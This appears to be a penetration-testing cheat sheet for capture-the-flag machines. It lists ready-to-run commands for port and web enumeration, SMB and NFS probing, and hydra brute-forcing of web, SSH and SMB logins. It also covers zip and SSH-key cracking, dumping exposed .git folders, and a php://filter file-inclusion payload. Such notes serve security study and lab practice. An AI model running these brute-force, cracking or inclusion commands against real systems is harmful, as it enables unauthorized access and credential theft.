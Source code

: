# Resources

* GTFOBins - https://gtfobins.github.io/
* Payloads All The Things - https://github.com/swisskyrepo/PayloadsAllTheThings


## Enumerations 

### Basic Scan

* Agressive scan - Will perform OS detection and version detection
    * `nmap -A -oN nmap.txt target`
* Run vulnerabilities scripts
    * `nmap -script vuln -oN nmapVuln.txt target`
* Scann all the ports
    * `nmap -A -p- -oN nmapFull.txt target`

### Enumerate Web Site Folders

* `gobuster dir -e -u http://target.thm/ -t30 -w /usr/share/dirb/wordlists/common.txt  | tee gobuster.txt`
* `gobuster dir -e -u http://target.thm/ -t30 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  | tee gobuster2.txt`
* `gobuster dir -e -u http://target.thm/ -t30 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt | tee gobuster3.txt`
* `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hw 54 -t10 "target.thm/FUZZ"`

### Find SubDomains
* `wfuzz -c -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -t30 --hw 290 -H "Host:FUZZ.somedomain.com" "http://somedomain.com/"`

### Enumerate SMB
* `enum4linux -a target | tee enum4linux.txt`
* `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse -oN nmapSamba.txt target`
* `smbmap -H target`
* `smbclient -U guest \\\\target\\IPC$`

### Enumerate Mounts
* `nmap -p PORT --script=nfs-ls,nfs-statfs,nfs-showmount -oN nmapRpc.txt target`
    * To mount: `sudo mount -t nfs target:$SOURCE_PATH $DESTINATION_PATH`
* `showmount -e target`

### Enumerate Wordpress Site
* Get users: `wpscan --url http://target/ -e vp,u`
* Get Plugins `$ nmap -sV --script http-wordpress-enum --script-args search-limit=10000 -p 80 target `
	* https://nmap.org/nsedoc/scripts/http-wordpress-enum.html

### Web Site Scan

* nikto: `nikto -h http://target/`


## Brute Forcing

### Brute Force Web Site Password
* `hydra -l SomeUser -P /usr/share/wordlists/rockyou.txt -f -u -e snr -t64 -m '/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect' IP http-post-form`
* Basic auth: `hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f -e snr -u -t64 10.10.174.130 http-head`
* Combine wordlists: `/usr/lib/hashcat-utils/combinator.bin colors.txt numbers.txt > wordlist.txt`

#### Wordpress
* `hydra -l wade -P /usr/share/wordlists/rockyou.txt -u -f -t64 -m '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fretro%2Fwp-admin%2F&testcookie=1:S=Location' http://target/ http-post-form -v -e snr`
* `wpscan --url http://target/ --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50`

### SSH
* `hydra -l root -P /usr/share/wordlists/rockyou.txt -f -u -e snr -t32 target ssh`

### SMB
`hydra -l fox -P /usr/share/wordlists/rockyou.txt -u -e snr target smb`

### Brute Force Zip File
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip 

### Break ssh Key Password
```sh
python ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 
```

## Run A Python Web Server
sudo python3 -m http.server 80

## SSH Tunnel
ssh -L LOCALPORT:localhost:REMOTEPORT user@domain.com

## Dump Git From Web Site
https://github.com/internetwache/GitTools

```sh
git clone http://pwd.harder.local/.git/
./GitTools/Dumper/gitdumper.sh http://pwd.harder.local/.git/ gitFolder
./GitTools/Extractor/extractor.sh gitFolder/ gitExtracted
```

## File Inclusion

* Read a PHP file in base64 when include/require is used:
	* ?param=php://filter/convert.base64-encode/resource=FILE